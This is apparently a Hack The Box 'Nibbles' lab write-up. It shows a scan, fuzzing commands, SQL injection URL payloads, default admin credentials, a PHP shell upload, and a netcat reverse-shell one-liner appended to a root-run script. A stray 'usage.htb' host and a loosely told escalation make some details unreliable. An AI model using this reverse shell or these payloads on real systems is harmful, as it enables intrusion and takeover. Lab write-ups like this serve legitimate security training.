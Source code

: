 ```yaml
---
title: "Nibbles"
date: 2024-07-20
categories: HTB
description: "HTB Nibbles walkthrough showcasing default credential abuse, PHP reverse shell deployment, and root escalation via writable root-executed script."
tags: [php-upload, cms, reverse-shell, privilege-escalation, linux]
---
```


Nibbles simulates a lightweight web server hosting a blog engine vulnerable to hardcoded credentials and file upload flaws.

Access was gained using default creds, followed by uploading a PHP reverse shell through a poorly secured admin panel.

File extension filtering was easily bypassed with common tricks, demonstrating the importance of proper server-side validation.

Escalated to root by modifying a root-owned script in a user-writable directory that was executed on login.

## Why I Chose This Machine

I selected Nibbles because it simulates a simple yet realistic developer misconfiguration scenario involving a custom CMS and insecure script permissions.  
It’s well suited for practicing file upload bypass, source review, and local enumeration for privilege escalation.

## Attack Flow Overview

1. Discovered a custom CMS and accessed its admin interface using default credentials  
2. Uploaded a reverse shell disguised as a `.php` file  
3. Gained a shell and switched to `nibbles` user via credential reuse  
4. Found a root-owned script in a writable directory and injected a reverse shell command to escalate privileges

This attack chain reflects common real-world scenarios in small dev environments.

## Enumeration

### Nmap

```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

### HTTP

![screenshot](/assets/images/nibbles1.png)

![screenshot](/assets/images/nibbles2.png)

#### `/nibbleblog/`

![screenshot](/assets/images/nibbles3.png)

![screenshot](/assets/images/nibbles4.png)

####  `/nibbleblog/admin/`

![screenshot](/assets/images/nibbles5.png)

http://10.10.10.75/nibbleblog/plugins/about/plugin.bit

![screenshot](/assets/images/nibbles6.png)

>nibbleblog 3.7

#### Fuzzing

```sh
# subdomain
ffuf -u http://10.10.10.75 -H "Host: FUZZ.usage.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac

# dir
feroxbuster -u http://10.10.10.75/nibbleblog -C 404 -A -e -S 0 --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -o nibbleblog_ferox
```

http://10.10.10.75/nibbleblog/content/private/users.xml

![screenshot](/assets/images/nibbles8.png)

## Foothold

### SQLi

[Exploit used](https://www.exploit-db.com/exploits/35865)

![screenshot](/assets/images/nibbles7.png)

```sh
# original 1
http://10.10.10.75/nibbleblog/index.php?page=admin' OR 1=1 -- //

# URL encoded 1
http://10.10.10.75/nibbleblog/index.php?page=admin'%20OR%201=1%20--%20//

# original 2
http://10.10.10.75/nibbleblog/index.php?idpost=admin%20OR%201=1%20--%20/

# URL encoded 2 
http://10.10.10.75/nibbleblog/index.php?page=admin'%20OR%201=1;--%20-



```
### Admin portal

![screenshot](/assets/images/nibbles10.png)

![screenshot](/assets/images/nibbles9.png)

>`admin : nibbles`

![screenshot](/assets/images/nibbles11.png)

nibbleblog version 4.0.3

### https://github.com/hadrian3689/nibbleblog_4.0.3

![screenshot](/assets/images/nibbles12.png)

https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html

![screenshot](/assets/images/nibbles13.png)

Upload the shell to Plugins : My Image

![screenshot](/assets/images/nibbles14.png)

Navigate to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/

![screenshot](/assets/images/nibbles15.png)

Click Image.php

![screenshot](/assets/images/nibbles16.png)

## Privilege Escalation

### Enumeration

![screenshot](/assets/images/nibbles17.png)

### Attempts

```sh
# Inserting a reverse shell one-liner in a script
echo >> monitor.sh

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 4444 >/tmp/f" >> monitor.sh
```

![screenshot](/assets/images/nibbles18.png)

![screenshot](/assets/images/nibbles19.png)

## Alternative Paths Explored

Initially attempted directory traversal and XSS, which were blocked.  
Also explored cron jobs, SUID binaries, and sudo rights but none were exploitable.  
Success came from inspecting the user's home directory and finding a carelessly exposed script executed by root.

## Blue Team Perspective

Nibbles shows how weak admin credential practices and script permission issues can be chained into a full compromise.  
To defend against this:

- Never deploy apps with default credentials  
- Isolate root-owned scripts from user-writeable paths  
- Monitor `.bashrc` and other user-startup artifacts for malicious commands
